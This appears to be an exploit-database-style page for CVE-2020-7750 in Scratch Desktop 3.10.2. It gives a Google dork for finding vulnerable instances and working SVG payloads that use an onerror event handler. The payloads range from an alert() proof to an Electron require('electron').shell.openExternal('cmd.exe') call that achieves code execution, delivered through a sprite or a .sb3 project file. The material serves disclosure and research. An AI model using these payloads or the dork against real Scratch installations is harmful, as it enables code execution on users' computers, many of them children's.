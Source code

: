 <languages /> <translate>

影響版本
--------

</translate>

    Version: 3.10.2

EXP
---

    # Exploit Title: Scratch Desktop 3.17 - Cross-Site Scripting/Remote Code Execution (XSS/RCE)
    # Google Dork: 'inurl:"/projects/editor/?tutorial=getStarted" -mit.edu' (not foolproof on versioning)
    # Date: 2021-06-18
    # Exploit Author: Stig Magnus Baugstø
    # Vendor Homepage: https://scratch.mit.edu/
    # Software Link: https://web.archive.org/web/20210225011334/https://downloads.scratch.mit.edu/desktop/Scratch%20Desktop%20Setup%203.10.2.exe
    # Version: 3.10.2
    # Tested on: Windows 10 x64, but should be platform independent.
    # CVE: CVE-2020-7750

    Scratch cross-site scripting (XSS) & Scratch Desktop remote code execution (XSS/RCE) <3.17.1 / scratch-svg-renderer <0.2.0-prerelease.20201019174008

    CVE-2020-7750 was disclosed on Scratch's official forums on 21th of October 2020 by the forum user apple502j. The forum thread describes a cross-site scripting (XSS) vulnerability in Scratch and Scratch Desktop prior to 3.17.1: https://scratch.mit.edu/discuss/topic/449794/

    You can exploit the vulnerability by uploading a SVG (*.svg) file WITHOUT the viewBox attribute and embedding a malicious event handler. Example:

        <svg ns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image href="doesNotExist.png" onerror="<INSERT JS PAYLOAD>" />
        </svg>

    The malicious SVG can be uploaded as a sprite or stored within a Scratch project file (*.sb3), which is a regular ZIP archive by the way.

    Example of regular cross-site scripting (XSS):

        <svg ns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image href="doesNotExist.png" onerror="alert('Pwned!')" />
        </svg>

    The Scratch Desktop versions runs on Electron where the exploit can be used for remote code execution (RCE):

        <svg ns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image href="doesNotExist.png" onerror="require('electron').shell.openExternal('cmd.exe')" />
        </svg>

    The example above launches cmd.exe (Command Prompt) on Windows.

    For a full walkthrough and explanation of the exploit, please see the following blog post by the exploit's author: https://www.mnemonic.no/blog/exploiting-scratch-with-a-malicious-image/

    Note that the author of this exploit does not take credit for finding the vulnerability. The vulnerability was disclosed by user apple502j on Scratch's official forums.